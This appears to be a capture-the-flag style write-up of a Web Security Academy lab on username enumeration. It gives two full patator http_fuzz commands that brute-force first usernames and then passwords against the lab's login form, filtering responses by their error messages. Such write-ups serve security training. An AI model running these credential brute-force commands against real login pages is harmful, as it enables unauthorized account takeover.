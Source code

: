 # Username enumeration via different responses

As we know the lab is vulnerable to username enumeration and password brute-force attacks, I used patator to achieve our goal. First we start off with getting required data for patator to execute an attack. 

### Getting error printed out on providing invalid creds

![image](https://user-images.githubusercontent.com/86168235/126813802-b70e4a38-8ed8-406e-9308-a05b34bf03ea.png)

### Getting the POST request body with burp proxy intercept 

![image](https://user-images.githubusercontent.com/86168235/126814070-5ef1a706-11a8-4a9c-9131-cc5023e50fd4.png)


## Getting a valid username

#### Command used

```
patator http_fuzz url=https://target-acad1f081f80499780e23f5700b70008.web-security-academy.net/login method=POST body='username=FILE0&password=lkshfklj' \
0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep="Invalid username"
```

## Getting a valid password

We requre the error message printed out by the website on providing invalid password for patator to work. 

![image](https://user-images.githubusercontent.com/86168235/126814438-cfc246c8-f6dc-44de-a5d3-34dff4d2d80a.png)

#### Command used

```
patator http_fuzz url=https://target-acad1f081f80499780e23f5700b70008.web-security-academy.net/login method=POST body='username=atlas&password=FILE0' \   
0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep="Incorrect password"
```

## Screenshot

![image](https://user-images.githubusercontent.com/86168235/126814801-9e03f40b-b2c8-4d24-a12f-2d535e8e6c4d.png)

